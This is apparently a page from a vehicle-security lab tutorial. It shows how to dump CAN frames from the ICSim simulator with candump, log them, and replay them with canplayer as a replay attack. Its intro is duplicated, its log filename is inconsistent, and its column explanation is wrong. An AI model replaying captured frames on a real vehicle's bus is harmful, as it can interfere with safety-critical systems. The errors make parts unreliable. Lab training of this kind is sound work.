 In this section, we will explore how to dump CAN frames using CAN utils tools and conduct a simple replay attack.

Once you have successfully set up ICSim as instructed in the previous section and verified its proper functioning, it's time to capture and analyze the CAN bus traffic. You can achieve this by running the `candump` command with the `vcan0` interface. Take a look at the example below:

    ┌──(kali㉿kali)-[/opt/ICSim]                                                                                                                                                                                                                                                                                                                                                                                                                                                             
    └─$ candump vcan0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         
      vcan0  1DC   [4]  02 00 00 39
      vcan0  183   [8]  00 00 00 0C 00 00 10 2D
      vcan0  143   [4]  6B 6B 00 E0
	  ...
      vcan0  21E   [7]  03 E8 37 45 22 06 01

   

##   Dumping CAN Frames and Performing a Replay Attack

In this section, we will explore how to dump CAN frames using CAN utils tools and conduct a simple replay attack.

Once you have successfully set up ICSim as instructed in the previous section and verified its proper functioning, it's time to capture and analyze the CAN bus traffic. You can achieve this by running the `candump` command with the `vcan0` interface. Take a look at the example below:

    ┌──(kali㉿kali)-[/opt/ICSim]
    └─$ candump vcan0
    
    vcan0  1DC   [4]  02 00 00 39
    vcan0  183   [8]  00 00 00 0C 00 00 10 2D
    vcan0  143   [4]  6B 6B 00 E0
    ...
    vcan0  21E   [7]  03 E8 37 45 22 06 01 

In the above output, you will notice an "interface" column, where it indicates "vcan0." This signifies that we are capturing all the packets on the `vcan0` interface. Next, there is a "message identifier" column, followed by the "size" column, which represents the size of the data in each frame. For example, "seven" indicates seven bytes of data, "four" represents four bytes of data, and "eight" signifies eight bytes of data. The following column displays the actual data, while the last column indicates the size of the data.

Now, using the `candump` tool, we will log the captured CAN packets to prepare for executing a replay attack. Run the following command:

    └─$ sudo candump -l vcan0
    Disabled standard output while logging.
    Enabling Logfile 'candump-2023-05-19_024025.log
    

By executing the above command, we log the CAN packets and store them in a logfile named `candump-2023-05-19_023210.log` for later use.

To perform the replay attack, let's utilize the `canplayer` tool. Execute the following command:

    ┌──(kali㉿kali)-[/opt/ICSim]
    └─$ canplayer -I candump-2023-05-19_024025.log 
    
